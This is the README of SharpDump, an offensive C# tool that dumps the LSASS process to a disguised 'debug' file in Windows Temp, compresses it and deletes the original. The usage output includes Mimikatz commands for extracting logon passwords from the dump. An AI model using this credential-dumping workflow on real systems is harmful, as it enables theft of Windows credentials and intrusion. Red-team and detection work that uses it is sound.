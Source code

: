 # SharpDump

----

SharpDump is a C# port of [PowerSploit's Out-Minidump.ps1] (https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Out-Minidump.ps1) functionality. The [MiniDumpWriteDump](https://docs.microsoft.com/en-us/windows/desktop/api/minidumpapiset/nf-minidumpapiset-minidumpwritedump) Win32 API call is used to create a minidump for the process ID specified (LSASS by default) to C:\Windows\Temp\debug<PID>.out, GZipStream is used to compress the dump to C:\Windows\Temp\debug<PD>.bin (.gz format), and the original minidump file is deleted.

[@harmj0y](https://twitter.com/harmj0y) is the primary author of this port.

SharpDump is licensed under the BSD 3-Clause license.

## Usage

Dump LSASS:

    C:\Temp>SharpDump.exe

    [*] Dumping lsass (808) to C:\WINDOWS\Temp\debug808.out
    [+] Dump successful!

    [*] Compressing C:\WINDOWS\Temp\debug808.out to C:\WINDOWS\Temp\debug808.bin gzip file
    [*] Deleting C:\WINDOWS\Temp\debug808.out

    [+] Dumping completed. Rename file to "debug808.gz" to decompress.

    [*] Operating System : Windows 10 Enterprise N
    [*] Architecture     : AMD64
    [*] Use "sekurlsa::minidump debug.out" "sekurlsa::logonPasswords full" on the same OS/arch


Dump a specific process ID:

    C:\Temp>SharpDump.exe 8700

    [*] Dumping notepad++ (8700) to C:\WINDOWS\Temp\debug8700.out
    [+] Dump successful!

    [*] Compressing C:\WINDOWS\Temp\debug8700.out to C:\WINDOWS\Temp\debug8700.bin gzip file
    [*] Deleting C:\WINDOWS\Temp\debug8700.out

    [+] Dumping completed. Rename file to "debug8700.gz" to decompress.

## Compile Instructions

We are not planning on releasing binaries for SharpDump, so you will have to compile yourself :)

SharpDump has been built against .NET 3.5 and is compatible with [Visual Studio 2015 Community Edition] (https://go.microsoft.com/fwlink/?LinkId=532606&clcid=0x409). Simply open up the project .sln, choose "release", and build.
